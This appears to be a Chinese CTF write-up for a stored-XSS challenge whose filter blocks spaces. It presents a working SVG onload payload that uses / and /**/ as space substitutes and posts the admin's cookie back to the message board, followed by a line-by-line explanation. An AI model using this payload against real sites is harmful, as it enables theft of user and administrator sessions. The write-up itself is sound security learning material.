



> 这是一道有关于 `xss` 的题目，这道题有意思就在于过滤了空格和换行，我当时去测试哪些字符被过滤禁用的时候，有时候多了一个换行或者空格，就给我提示非法内容了。
>
> 我当时还在想，怎么都给过滤完了。。。后来看题解才知道，~~那我是二比呗~~，这个确实是怪自己了。

那我们进来页面，可以看到有个留言板和报告给管理员。那这块留言的地方，就应该是给咱们测试过滤和禁用的地方了，真正要拿 `flag` 还是得要从报告给管理员这里入手。



留言板的核心接口为：

​	`GET /`：看留言

​	`POST /post`：发留言

​	`GET /?report=1`：让管理员来查看

留言板的正常运作：

​	`POST /post` , body 是 `content=你好`， 服务器把 “你好” 存进留言列表

​	`GET /`，服务器把留言列表渲染成 HTML 返回

​	`GET /?report=1`, 是告诉服务器 “叫管理员来看一眼”

​	漏洞点：**存储型 XSS。** `POST /post` 接收的 `content` 会被服务器原样存入留言列表；`GET /` 渲染页面时，又把每条留言的 `content` **未经 HTML 转义直接拼进 HTML**。因此，当留言内容里带有 `<svg onload=...>` 这类可执行代码时，它不会被当作文字显示，而是会被浏览器当作 HTML/JS 解析执行。也就是说，恶意代码先被“存储”在留言列表里，之后**任何访问首页的人**都会触发执行——包括被 `/?report=1` 引来的管理员。管理员打开页面时，其浏览器会在管理员身份下执行这段代码，攻击者便可借管理员身份发起请求，把管理员 Cookie 等内容写回留言板或者是进行其他操作，从而泄露管理员信息。


> payload：
>
> ```html
> <svg/onload=fetch(`/post`,{method:`POST`,body:new/**/URLSearchParams({content:escape(this.ownerDocument.cookie)})})></svg>
> ```
>
> 如果没有space的过滤，原样应该是
>
> ```html
> <svg onload=fetch(`/post`,{method:`POST`,body:new URLSearchParams({content:escape(this.ownerDocument.cookie)})})></svg>
> ```

> payload干了什么：
>
> 让访问这个页面的浏览器，以他自己的身份，向同源的 `/post` 接口发一条新留言，留言内容是他自己的 Cookie
>
> 那么，管理员访问时，发留言的就是管理员，留言内容就是管理员 Cookie。
>
> 
>
> `<svg/onload=...>`：
>
> - SVG 标签，浏览器解析它并触发 `onload` 事件 
> - `/` 代替了空格。正常写法是 `<svg onload=...>`，空格被过滤，HTML 里标签名和属性之间的分隔符可以是 `/`、制表符、换行
> - `onload` 在 SVG 加载完成时触发，不需要用户交互。
>
> 
>
> fetch(\`/post\`,{...})`
>
> - `fetch` 发 HTTP 请求
> - 目标 `/post` 是相对路径，同源。
> - 请求由当前访问者的浏览器发出
> - \` 是模板字面量，用来包字符串，避免用 `'` `"` 和空格
>
> 
>
>
> {method:\`POST\`,body:........}
>
> - method:\`POST\`：用 POST 方法，和正常发留言一致
> - `body:...`：请求体，后面构造出来的表单数据
>
> 
>
> `new/**/URLSearchParams({content:...})`
>
> - `URLSearchParams` 把对象转成 `application/x-www-form-urlencoded` 格式的 body，即 `content=xxx` 这种表单格式，和正常 `POST / post` 的 body 一模一样
> - `/**/` 是 JS 注释，用来代替空格。`new/**/URLSearchParams` 在 JS 里合法，注释被忽略，等于 `new URLSearchParams`
> - `{content:...}` 表单字段名为 `content` ，和正常发留言的字段一致，服务器才会当成留言处理
>
> 
>
> `escape(this,ownerDocument.cookie)`
>
> - **`this`**：在事件处理器里指向触发事件的元素，也就是 `<svg>`
> - **`this.ownerDocument`**：取该元素所属的 document，等价于 `document`。
> - **`.cookie`**：取当前页面的 Cookie，`cookie` 没被过滤。
> - **`escape(...)`**：做 URL 编码，把 Cookie 里的 `;`、`=`、`"`、`{`、`}` 等字符转成 `%xx`，防止破坏表单格式。

拿前面的payload提交



提交后，点击报告给管理员，返回原页面可以看到留言列表中已经返回了 cookie



